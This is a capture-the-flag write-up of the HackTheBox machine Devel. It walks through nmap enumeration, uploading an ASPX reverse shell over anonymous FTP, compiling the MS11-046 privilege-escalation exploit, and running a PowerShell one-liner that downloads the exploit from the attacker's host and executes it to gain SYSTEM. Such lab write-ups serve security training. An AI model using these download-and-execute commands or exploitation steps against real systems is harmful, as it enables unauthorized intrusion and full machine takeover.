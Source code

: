 # HackTheBox - Devel Writeup


## Enumeration

- scan top 1000 ports

```bash
nmap -sC -sV -oN nmap/initial 10.10.10.5
```

- the result

![nmap initial scan](1000.png "nmap initial scan")

- all ports scan

```bash
nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.5
```

- the result

![nmap allports scan](all_ports.png "nmap allports scan")

### Open Ports
- We all know both Nmap scan shows us, just 2 open ports
- 21/FTP = Microsoft ftpd
- 80/HTTP = Microsoft IIS httpd 7.5

### FTP
- File Transfer Protocol [FTP] on this machine is open and allowed login as anonymous
- Let's connect to it

![ftp anonymous](ftp.png "ftp anonymous")

- Well, I can't find anything on it
- So, I'm thinking this FTP might have been connected to the other port [port 80].

### WebPage
- As we saw the image above. It has a `welcome.png` image.
- Let's put that on the `URL`

![default IIS webpage](welcome.png "default IIS webpage")

- COOL!

## Foothold/Gaining Access

### ASPX Reverse Shell
- Let's try to get the reverse shell 
- So, this is `Microsoft IIS` 
- with light googling. I've found the [aspx reverse shell](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx)
- Source
	- [Github - borjmz](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx)
<br>
- I'm gonna put the reverse shell on the FTP server
- Then, execute it with the `curl` command

![shell as iis apppool\web](got_shell.png "shell as iis apppool\web")

- I'm in as `iis apppool\web`

### systeminfo

- Let's enumerate this machine.
- First, I'm gonna run the `systeminfo` command
- the result

![systeminfo](systeminfo.png "systeminfo")

- OK! WOW!
- we're on Microsoft Windows 7 and it's a really old machine.
- Again. I'm gonna google around.

## Privilege Escalation

### MS11-046

![found an exploit](exploit-db.png "found an exploit")

- I've found this exploit
- Let's download it and compile the exploit <br>
-> don't worry, they got the compiling instructions

### Compiling Exploit
{{< admonition tip >}}
If you got this response after try to compiling `command not found: i686-w64-mingw32-gcc` <br>
Just run this command to install  it `apt install mingw-w64` 
{{< /admonition >}}

- This is the command for compiling
```bash
i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32
```
- After it is done, you got the binary in your directory called `MS11-046.exe`

### Transfer the Exploit
- Turns out, this machine has `PowerShell`
- I'm gonna host my file with a python webserver

```python
python3 -m http.server
```
- Let's transfer the exploit using PowerShell with this command.
- Source <br>
	-> [Jourdant - 3 ways to download files with PowerShell](https://blog.jourdant.me/post/3-ways-to-download-files-with-powershell)

```powershell
powershell.exe -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.15:8000/MS11-046.exe', 'c:\users\public\documents\lol.exe')"
```
- Then, execute it.

![become nt authority\system](exe.png "become nt authority\system")

- YES! I'm become `SYSTEM`

## User Flag

![user flag](user.png "user flag")

## Administrator Flag

![root flag](admin.png "root flag")

## Conclusion
I've learned a lot today. If you using File Transfer Protocol [FTP] make sure to configure it properly and avoid using anonymous access. Lastly, just update the system or even better use the new and up-to-date version of windows.

I have a fun time doing this machine and I hope you guys do too. Bye ;)
